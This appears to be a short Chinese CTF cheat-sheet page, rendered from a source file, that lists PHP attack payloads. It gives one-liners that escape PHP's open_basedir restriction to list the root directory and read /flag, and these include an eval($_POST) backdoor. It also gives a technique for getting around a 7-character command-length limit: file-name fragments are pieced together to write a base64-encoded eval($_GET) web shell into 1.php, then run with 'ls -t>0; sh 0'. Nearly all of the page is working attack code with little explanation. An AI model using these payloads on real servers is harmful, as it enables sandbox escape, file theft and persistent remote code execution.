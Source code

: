 

### bypass open_basedir

复制

```
mkdir('/tmp/test');chdir('/tmp/test');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');var_dump(scandir('/'));@eval($_POST[a]); echo 1;
chdir('img');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo(file_get_contents('/flag'));
```



### 长度限制

- **7字符**

  复制

  ```
  #写入语句
  <?php eval($_GET[1]);
  #base64编码后
  PD9waHAgZXZhbCgkX0dFVFsxXSk7
  #需要被执行的语句：
  echo PD9waHAgZXZhbCgkX0dFVFsxXSk7|base64 -d>1.php
  ```

  复制

  ```
  >hp
  >1.p\\
  >d\>\\
  >\ -\\
  >e64\\
  >bas\\
  >7\|\\
  >XSk\\
  >Fsx\\
  >dFV\\
  >kX0\\
  >bCg\\
  >XZh\\
  >AgZ\\
  >waH\\
  >PD9\\
  >o\ \\
  >ech\\
  ls -t>0
  sh 0
  ```

  复制
